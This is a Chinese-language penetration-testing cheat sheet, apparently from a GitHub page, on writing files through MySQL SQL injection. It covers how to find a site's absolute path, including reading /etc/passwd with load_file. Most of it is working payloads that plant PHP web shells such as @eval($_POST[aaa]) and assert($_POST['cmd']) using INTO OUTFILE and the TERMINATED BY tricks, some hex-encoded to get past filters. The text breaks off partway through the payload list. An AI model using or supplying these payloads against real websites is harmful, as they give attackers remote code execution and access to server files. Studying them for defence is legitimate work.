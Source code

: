 写文件:

- 要求

    - 需要对目标目录具有写权限

        - 没有配置secure-file-priv。可以通过`select @@secure_file_priv;`查询

        - ```
            如果为NULL,则不能写入
            （2）：如果为空，可以在任意文件位置下写入
            （3）：如果为一个路径，可以在该文件路径写入
            ```


    - **要知道网站的绝对路径**
        - phpinfo() 页面：最理想的情况，直接显示web路径
        - web报错信息：可以通过各种fuzz尝试让目标报错，也有可能爆出绝对路径
        - 一些集成的web框架：如果目标站点是利用phpstudy、LAMPP等之类搭建的，可以通过查看数据库路径show variables like '%datadir%'; 再猜解web路径的方法，一般容易成功。
        -  利用select load_file() 读取文件找到web路径：可以尝试/etc/passwd，apache|nginx|httpd log之类的文件。
        - Trick：如何判断目录是否存在，往往确定了/var/www/html目录，但是还有一层目录不能 确定，可以采用目标域名+常用的网站根目录的方式进行爆破，当使用  select 'test' into outfile '/var/www/$fuzz$/shell.php'；时目录fuzz不存在将会报错Can't create/write to file '/var/www/html/666.txt' (Errcode: 2)；如果存在但是目录写不进去将返回(Errcode: 13)；如果使用的 load data infile "/etc/passwd" into table test;该语句执行后将也会显示文件是否存在，有权限能否写等信息。
        - @@datadir参数看mysql路径 反猜绝对路径
        - 查看数据库表内容获取 有一些cms会保存网站配置文件 或者路径


    - GPC关闭(GPC:是否对单引号转义)
    
    - **root权限**

- **select into outfile**

    - 可以写入多行

    - ```url
        union select 1,2,'<?php     @eval($_POST[aaa]);?>' into     outfile 'd:/1.php' 
        #1.php的 文件内容1	2	<?php     @eval($_POST[aaa]);?>
        
        #可以将一句话木马转换成16进制的形式：
        union select 1,2,0x3c3f70687020406576616c28245f504f53545b6161615d293b3f3e  into outfile 'd:/1.php' 
        #文件内容和上面一样，mysql会自动将16进制转换成字符串
        
        #利用分隔符写入
        ?id=1 into outfile 'D:/WWW/evil.php' fields terminated by '<?php assert($_POST["cmd"]);?>'
        
        ?id=1 into outfile 'D:/WWW/evil.php' lines terminated by '<?php phpinfo() ?>'--+
        
        ?id=1 LIMIT 0,1 INTO OUTFILE 'D:/WWW/evil.php' lines terminated by 0x20273c3f70687020406576616c28245f504f53545b2767275d293b3f3e27 --+
        
        #同样的技巧，一共有四种形式
        ?id=1 INTO OUTFILE '物理路径' lines terminated by  （一句话hex编码）#
        
        ?id=1 INTO OUTFILE '物理路径' fields terminated by （一句话hex编码）#
        
        ?id=1 INTO OUTFILE '物理路径' columns terminated by （一句话hex编码）#
        